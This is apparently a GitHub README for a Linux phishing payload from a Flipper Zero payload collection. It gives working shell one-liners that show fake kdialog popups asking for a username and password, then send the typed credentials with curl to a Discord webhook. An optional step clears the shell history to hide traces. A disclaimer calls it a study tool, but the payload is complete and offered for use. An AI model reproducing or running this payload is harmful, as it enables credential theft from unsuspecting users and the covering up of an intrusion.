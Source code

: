 
# Standard Phishing Payload Using kdialog - Linux ✅

A script used to exfiltrate some input by a popup phishing based on linux systems using kdialog.

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Faleff-github%2Fmy-flipper-shits&count_bg=%233C3C3C&title_bg=%233C3C3C&icon=linux.svg&icon_color=%23FFFFFF&title=views&edge_flat=false)](https://github.com/aleff-github/my-flipper-shits)

**Category**: Phishing

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to exfiltrate some input by a popup phishing based on linux systems using kdialog.

Opens a shell, get the data by a popup, send the input to a Discord webhook (or whatever you want to use for the exfiltration).

## Getting Started

### Dependencies

* Internet Connection for the Exfiltration

### Settings

* Set the Discord webhook
* Set the payload as you want

### cURL Command

With this payload you can send a post message using cURL shell command line to the webhook or whatever you choose for the exfiltration. You should replace the tag *\<message>* with the user input.

- `curl -H "Content-Type: application/json" -X POST -d "{\"content\": \"$(<message>)\"}" $WEBHOOK_URL);`

### kdialog - Popup command

KDialog can be used to show nice dialog boxes from shell scripts. You can't acquire multiple input in one popup, so you should use multiple popup. You can set the title, the message, the input type and so and so on...

- Simple message popup: `kdialog --title "<replace_with_your_title>" --msgbox "<replace_with_your_message>"; `
- Plaintext input popup (i.e. Username): `kdialog --title "<input_title>" --inputbox "<input_type_title>";`
- Hiddentext input popup (i.e. Password): `kdialog --title "<input_title>" --password "<input_type_title>" --default "password";`

### The Payload

The payload will merge the cURL command with the kdialog popup output (so the user input) as the following command...

```shell
$(curl -H "Content-Type: application/json" -X POST -d "{\"content\": \"$(kdialog --title "Popup Title" --msgbox "Insert your username and password for go on"; kdialog --title "Insert your Username" --inputbox "Username"; kdialog --title "Insert your Password" --password "Password" --default "password";)\"}" $WEBHOOK_URL);
```

You can put into the payload something that will clear the last shell history closing the shell at the end of the execution, adding this line `history -c; exit;`

```shell
$(curl -H "Content-Type: application/json" -X POST -d "{\"content\": \"$(kdialog --title "Popup Title" --msgbox "Insert your username and password for go on"; kdialog --title "Insert your Username" --inputbox "Username"; kdialog --title "Insert your Password" --password "Password" --default "password";)\"}" $WEBHOOK_URL); history -c; exit;
```

### FAQs

- Why put the entire payload in one line?
Generally it is recommended to divide the various steps at different times by dividing each command with some DELAY, in this case it is not recommended because phishing-type cyber attacks often tend to take a long time. How can you tell how long a user should take to enter their data? What if he doesn't remember his email? It is important to consider the slow factor, which, in theory, can take really long and in any case cannot be dynamically predicted.

- Why is used the 'cyber-attack' word?
This payload is intended to be a working tool for performing cybersecurity analysis and is not intended to harm malicious users in any way. This term is used for simplicity in speaking but is really meant to be a study tool that can be worked on.

## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>
